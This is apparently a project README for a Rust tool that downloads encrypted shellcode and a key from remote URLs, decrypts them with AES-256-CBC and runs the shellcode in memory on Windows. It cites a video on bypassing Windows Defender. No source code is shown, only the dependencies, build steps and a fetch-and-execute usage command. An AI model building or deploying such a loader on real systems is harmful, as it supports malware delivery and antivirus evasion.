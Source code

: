 AES-256-CBC Shellcode Decryptor and Executor in Rust

This Rust application fetches encrypted shellcode and an encryption key from provided URLs, decrypts the shellcode using AES-256-CBC, and executes it in memory on Windows systems. It uses PBKDF2-inspired concepts and relies on Windows API calls for memory allocation and execution. This project was inspired by foundational knowledge from Gemini Cyber Security’s video "Getting Started with Rust - Bypass Windows Defender".

Note: This tool is intended for educational and security research purposes only. Use responsibly and in compliance with applicable laws.
Features

    AES-256-CBC Decryption: Decrypts shellcode using the AES-256 algorithm in CBC mode.
    Remote File Fetching: Retrieves encrypted shellcode and keys from HTTP URLs using reqwest.
    In-Memory Execution: Allocates memory and executes decrypted shellcode via Windows API calls (VirtualAlloc, VirtualProtect, CreateThread).
    Zero-Initialized IV: Uses a static IV for simplicity (not recommended for production use).

Prerequisites

    Rust: Ensure Rust is installed. Install it via Rustup if needed:
    bash

    curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
    Windows OS: This project uses Windows-specific APIs (windows-sys) and is not compatible with other operating systems.
    Internet Access: Required to fetch files from provided URLs.

Building the Project
1. Clone the Repository

Clone this repository and navigate to the project directory:
bash
git clone <repository_url>
cd <repository_name>
2. Install Dependencies

The project relies on several Rust crates. Ensure your Cargo.toml includes the following:
toml
[dependencies]
aes = "0.8"
block-modes = "0.8"
pbkdf2 = "0.12"
sha2 = "0.10"
hex = "0.4"
hmac = "0.12"
reqwest = { version = "0.11", features = ["blocking"] }
windows-sys = { version = "0.52", features = ["Win32_Foundation", "Win32_System_Memory", "Win32_System_Threading"] }

Then, build the project in release mode:
bash
cargo build --release

The compiled binary will be located in the target/release directory.
Usage

Run the application with the following command, providing URLs to the encrypted shellcode and the encryption key:
bash
./target/release/rust -exec <http://ip_address/encrypted> <http://ip_address/key>
Example
bash
./target/release/rust -exec http://example.com/encrypted_shellcode http://example.com/key

This will:

    Fetch the encrypted shellcode and key from the specified URLs.
    Decrypt the shellcode using AES-256-CBC with a zero-initialized IV.
    Allocate executable memory, copy the decrypted shellcode, and execute it as a new thread.

If successful, the program will output:
text
Decryption and execution succeeded.
Security Considerations

    Static IV: The initialization vector (IV) is set to zero, which compromises security by making the encryption predictable. For real-world use, use a cryptographically secure random IV.
    Key Management: The key is fetched remotely but not validated. Ensure the key source is trusted and secure.
    Shellcode Execution: Executing arbitrary code in memory can be dangerous and is intended for controlled environments only.
    Error Handling: Basic error reporting is implemented, but robust error handling should be added for production use.

Credits

This project was inspired by Gemini Cyber Security and their video "Getting Started with Rust - Bypass Windows Defender". Special thanks to them for their educational content that helped guide this development.
License

This project is licensed under the MIT License. See the LICENSE file for details.
Disclaimer

This tool is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this software. Use it at your own risk and ensure compliance with all relevant laws and regulations.
